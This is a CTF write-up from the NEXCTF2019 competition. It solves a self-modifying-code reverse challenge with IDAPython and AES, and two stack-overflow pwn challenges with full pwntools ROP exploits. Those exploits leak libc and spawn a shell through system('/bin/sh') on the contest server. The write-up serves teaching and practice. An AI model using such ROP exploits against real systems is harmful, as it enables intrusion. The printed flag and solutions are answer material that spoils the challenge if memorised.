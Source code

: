 # NEXCTF2019
## Preface

This is the first time that our students of grade 17 hold CTF.  The design of challenges fully considers the progressive step and takes care of the freshmen of grade 19. Finally, I hope you can get something from NEXCTF2019, and I hope this can arouse your interest in learning CTF. We NEX is a CTF team in Northeastern University. Forget to say, the ranking in CTF is not important. We sincerely hope that you can improve yourself through one competition after another. As a team of ideological exchange, we sincerely welcome you to come at any time.

## The author's complaint

Before the ninth week,  the week of exam. As a pwn and reverse player in the NEX team, I have the unavoidable responsibility to give this writeup. So, I am forced working hard to write the writeup of binary(Pwn, Reverse) challenges.

I really hope you can learn technology after reading this writeup. There are codes to solve the challenges, but I strongly recommend that you do not use it directly, but instead try it by yourself step by step.

## Reverse

There are three reverse challenges in this CTF. Actually, the amount of people who solve reverse challenges is far below my expectation. What a disappointment it is. Below is writeup of challeng "Re3".

Using IDA to open this program, we easily found that this program is very simple:

![](./re3/1.png)

First receive a string of length 39. Then, for the function `sub_40080F`, performing xor with value `0x99`. This technology is called SMC (Self Modify Code), which changes its code at runtime.

When cracker open the function `sub_40080F`, he'll quickly find that this function is con't readable.

At this point, there are two solutions:

- Debug this ELF executable, and make a break point, analyze the function in memory.
- Use IDAPython to decrypt manually.

First solution, you should configure IDA remote debugging environment, that's easily, any question, baidu or goolge it.

Second solution, It's convenient for you to get starting with IDAPython, docs: https://www.hex-rays.com/products/ida/support/idapython_docs/. Note that idatython failed to run, It may be the wrong configuration of the python environment of your computer.

```python
start = 0x40080F
end = 0x04008A8
ads = start
while ads <= end:
	t = get_byte(ads)
	patch_byte(t^0x99)
	ads += 1
print "OK"
```

After runing this IDAPython, you'll find function sub_400B0F shows below, note that pressing 'U' to undefine, and pressing 'P' to define procdure (function). If you didn't do this, you may not succeed

![](./re3/2.png)



![](./re3/3.png)

Here I recommend you use the findcrypt plug-in of ida, will soon find this is AES algorithm.

```c
AES_init_ctx(&ctx, key);
AES_ECB_decrypt(&ctx, vdata);
AES_ECB_decrypt(&ctx, vdata+0x10);
```

So the problem was solved immediately.

```python
In [8]: from Crypto.Cipher import AES

In [9]: key = b"1111111111111111"

In [10]: cipher = b"\xE7\x5B\x8A\xCA\x42\x27\x46\x41\xE8\x0A\xD9\x5A\x9A\x7F\x2E\x11\x53\xBB\xCB\xDA\xE9\x98\xA0\xC3\xA2\x14\x2E\x3B\x26\x5E\x33\x97"

In [11]: aes = AES.new(key, AES.MODE_ECB)

In [12]: m = aes.decrypt(cipher)

In [13]: print m
flag{i_th1nk_reverse_1n_CTFisok}

```

## Pwn1_easystack

The original purpose of this challenge is to let you know the ROP technology in stack overflow exploitation.

Any principle about stack overflow, plz reference liveoverflow's binary hacking video: https://www.bilibili.com/video/av18860370

Here,  Opening this challenge in IDA, there is stack buffer overflow in function `vuln`, it read up to 0x100 len data to buf, which size is 0x20: 

![](./pwn1_easystack/1.png)

Using pwntools' checksec, canary protection is off.

![](./pwn1_easystack/2.png)

The idea of exploit is as follows:

- ROP to puts@plt(puts@got), leak address of puts in libc;
- ROP to libc, execute system("/bin/sh");

exploit.py

```python
from pwn import *
# io = process("./pwn1")
io = remote("handsomedog.top", 10001)
libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
elf = ELF("./pwn")
context.arch = elf.arch
pop_rdi = 0x0000000000400773
payload = "A"*0x20 + "B"*8 + flat(
    [
        pop_rdi, elf.got["puts"], elf.plt["puts"], 0x0400666
    ]
)
io.sendafter(": \n", payload)
libc.address = u64(io.recvline().strip().ljust(8, "\x00"))-libc.sym["puts"]
success("libc: 0x%x"%libc.address)
payload = "A"*0x20 + "B"*8 + flat(
    [
        pop_rdi, next(libc.search("/bin/sh")), libc.sym["system"]
    ]
)
io.send(payload)
io.interactive()
```

![](./pwn1_easystack/3.png)

## Pwn2_easystack_revenge

Different with challenge `pwn1_easystack`, this program can only overflow 16 bytes, which means we can't do ROP on the stack. However, there is a tecnolgy called stack migration, use gadget `leave, ret;` make `esp` pointer to another place where we could control easily. In this challenge, we could use this to make stack lays on `.bss` segment, then do ROP like `pwn1_easystack`.

exploit.py

```python
from pwn import *
context.terminal = ['terminator', '-x', 'sh', '-c']
_remote = 1
if _remote:
    io = remote("handsomedog.top", 10002)
else:
    io = process("./pwn")
elf = ELF("./pwn")
libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")

bss_adr     = 0x00000000006010a0
pop_rdi     = 0x0000000000400783
pop_rbp     = 0x00000000004005d0
pop_rsi_r   = 0x0000000000400781
leave_ret   = 0x00000000004006c8

puts_got    = elf.got["puts"]
puts_plt    = elf.plt['puts']
read_plt    = elf.plt["read"]

bss  = p64(pop_rbp) + p64(bss_adr+0x300) + p64(leave_ret)
bss  = bss.ljust(0x308, 'A')
bss += p64(pop_rdi) + p64(puts_got ) + p64(puts_plt)
bss += p64(pop_rsi_r) + p64(bss_adr+0x500) + "A"*8 + p64(pop_rdi) + p64(0) + p64(read_plt)
bss += p64(pop_rbp) + p64(bss_adr+0x500-8) + p64(leave_ret)
io.sendafter("Name:\n", bss)
payload = "A"*0x20 + p64(bss_adr - 8) + p64(leave_ret)
#gdb.attach(io, "b *0x4006c9")
#pause()
io.sendafter("Buffer:\n", payload)
leak = io.recvuntil("\n", drop=True)
leak = u64(leak.ljust(8, '\x00'))
base = leak - libc.sym["puts"]
success("libc: 0x%x"%base)
binsh = base + next(libc.search("/bin/sh"))
system = base + libc.sym["system"]
bss  = p64(pop_rdi) + p64(binsh) + p64(system)
io.send(bss)
io.interactive()
```

